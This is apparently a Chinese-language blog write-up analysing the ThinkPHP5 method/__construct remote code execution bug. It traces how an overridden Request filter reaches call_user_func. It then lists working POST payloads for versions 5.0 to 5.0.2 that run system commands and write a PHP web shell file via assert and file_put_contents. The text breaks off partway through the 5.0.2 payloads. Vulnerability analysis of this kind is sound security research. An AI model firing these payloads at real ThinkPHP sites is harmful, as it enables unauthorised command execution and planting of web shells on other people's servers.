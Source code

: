 而在 ThinkPHP5 完整版中，定义了验证码类的路由地址`?s=captcha`，默认这个方法就能使`$dispatch=method`从而进入`Request::instance()->param()`。

我们继续跟进`Request::instance()->param()`

![image](https://y4er.com/img/uploads/20191127220215.jpg)

执行合并参数判断请求类型之后return了一个`input()`方法，跟进

![image](https://y4er.com/img/uploads/20191127229199.jpg)

将被`__contruct`覆盖掉的filter字段回调进`filterValue()`，这个方法我们需要特别关注了，因为 `Request` 类中的 param、route、get、post、put、delete、patch、request、session、server、env、cookie、input 方法均调用了 `filterValue` 方法，而该方法中就存在可利用的 `call_user_func` 函数。跟进

![image](https://y4er.com/img/uploads/20191127223843.jpg)

`call_user_func`调用`system`造成rce。

梳理一下：`$this->method`可控导致可以调用`__contruct()`覆盖Request类的filter字段，然后App::run()执行判断debug来决定是否执行`$request->param()`，并且还有`$dispatch['type']` 等于`controller`或者 `method` 时也会执行`$request->param()`，而`$request->param()`会进入到`input()`方法，在这个方法中将被覆盖的`filter`回调`call_user_func()`，造成rce。

最后借用七月火师傅的一张流程图
![image](https://y4er.com/img/uploads/20191127228626.jpg)

# method __contruct导致的rce 各版本payload
一个一个版本测试，测试选项有命令执行、写shell、debug选项
## 5.0
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.1
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.2
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
```